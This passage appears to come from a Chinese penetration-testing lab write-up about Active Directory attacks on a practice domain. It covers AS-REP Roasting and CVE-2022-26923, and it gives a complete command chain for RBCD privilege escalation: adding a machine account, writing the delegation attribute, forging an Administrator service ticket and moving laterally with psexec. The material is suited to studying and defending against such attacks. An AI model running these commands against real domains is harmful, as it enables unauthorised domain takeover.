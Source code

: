### AS-REP Roasting 攻击

接下来，进一步获取系统的域控主机，学习一下 AS-REP Roasting 攻击。需要一个前提条件，域控默认不开启`预身份验证`，攻击者可以使用指定的用户去请求票据，向域控制器发送 `AS_REQ` 请求，此时域控会不作任何验证便将 TGT 票据和加密的 Session-key 等信息返回。因此攻击者就可以对获取到的加密 Session-key 进行离线破解，如果爆破成功，就能得到该指定用户的明文密码。

### CVE-2022–26923 && RBCD Attack 域控

需要学习的知识点

命令如下 `基于资源的约束性委派(RBCD)进行提权`

了解 `Active Directory 域服务特权提升漏洞` , 该漏洞允许低权限用户在安装了 Active Directory 证书服务服务器角色的默认 Active Directory 环境中将权限提升到域管理员。其原理主要是`唯一性判断` ,Windows 系统未对 dNSHostName 做唯一性判断，域普通用户将其属性嵌入到证书中从而提升为域控

```plain
# 基于资源的约束性委派 (RBCD) 进行提权
echo "172.22.15.35 XR-0687.xiaorang.lab" >> /etc/hosts
# 通过 impacket-addcomputer 添加机器用户 hacker1/Admin@123
proxychains -q impacket-addcomputer xiaorang.lab/lixiuying:'winniethepooh' -dc-ip 172.22.15.13 -dc-host xiaorang.lab -computer-name 'hacker1$' -computer-pass 'Admin@123'
# 将创建的机器用户 hacker1 的 SID 添加到 XR-0687 机器的 msDS-AllowedToActOnBehalfOfOtherIdentity 属性
proxychains rbcd.py xiaorang.lab/lixiuying:'winniethepooh' -dc-ip 172.22.15.13 -action write -delegate-to 'XR-0687$' -delegate-from 'hacker1$'
# 发起资源约束委派请求 ST 票据
proxychains impacket-getST xiaorang.lab/'hacker1$':'Admin@123' -dc-ip 172.22.15.13 -spn cifs/XR-0687.xiaorang.lab -impersonate Administrator
# 导入票据
export KRB5CCNAME=Administrator.ccache
# 通过 psexec 无密码连接横向
proxychains -q impacket-psexec -k -no-pass -dc-ip 172.22.15.13 administrator@XR-0687.xiaorang.lab -codec gbk
```

[![](assets/1710899037-be2c4398bbf395f1e6ceb7ce0d1e15c7.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240227204914-9c9b7622-d56e-1.png)

`AD域权限提升漏洞(CVE-2022-26923)`  
渗透主机 `172.22.15.18(XR-CA.xiaorang.lab)`，整数服务漏洞  
大致流程如下  
下载：[https://github.com/ly4k/Certipy/](https://github.com/ly4k/Certipy/)
